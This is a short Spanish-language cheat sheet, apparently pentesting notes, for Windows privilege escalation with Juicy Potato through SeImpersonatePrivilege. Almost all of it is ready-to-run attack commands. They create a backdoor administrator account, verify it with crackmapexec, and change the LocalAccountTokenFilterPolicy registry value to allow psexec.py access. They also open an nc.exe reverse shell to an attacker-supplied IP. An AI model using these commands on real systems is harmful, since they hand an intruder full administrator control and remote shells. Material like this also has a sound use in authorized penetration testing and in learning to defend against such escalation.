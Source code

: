 # Juicy Potato 

Cuando tenemos el Privilegio "Se Impersonate Privilege" en un Usuario, procedemos a usar Juicy Potato

# Sintaxis Creando un Nuevo Usuario a nivel de sistema
E introduciendolo en el grupo Admins

```bash
Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user paco paco1234$ /add"

Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup administrators paco /add"
```

# Procedemos a comprobar el usuario con `Crackmapexec`
En busca del pwned, chequeamos...
```bash
crakmapexec smb IP -u paco -p paco123$

Ejemplo de lo que buscamos
# crackmapexec smb 192.168.177.10 -u administrator -p lab 
SMB         192.168.177.10  445    CLIENT251        [*] Windows 10 Pro 16299 (name:CLIENT251) (domain:corp.com) (signing:False) (SMBv1:True)
SMB         192.168.177.10  445    CLIENT251        [+] corp.com\administrator:lab (Pwn3d!)
```

Si NO resulta pwned procdemos a hacer lo siguiente

# Sintaxis creando un nuevo recurso compartido a nivel de red

Se Tenso por aqui
```bash
Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share paco_folder=C:\Windows\Temp\privilege /add"
```

# Modificando el Registro Oportuno

Para conseguir el Pwned y poder utilizar `PSEXEC.PY`
```bash
Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
```

# Psexec.py

Una vez seguidos los pasos el usiario Paco deberia estar Pwned y podriamos lanzarnos una Shell.
```bash
# psexec.py WORKGROUP/paco@10.11.1.13 cmd
```

# JuicyPotato para ejecutar un comando

En caso de que tuviesemos un nc.exe descargado, lanzarnos una RevShell
```bash
Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe -e cmd (OUR IP PORT)
```
Tambien esta el rottenpotato.exe que veremos mas adelante.

# PrintSpoofer.exe
SeImpersonatePrivilege + Microsoft Windows Server 2019 Standard = PrintSpoofer64.exe


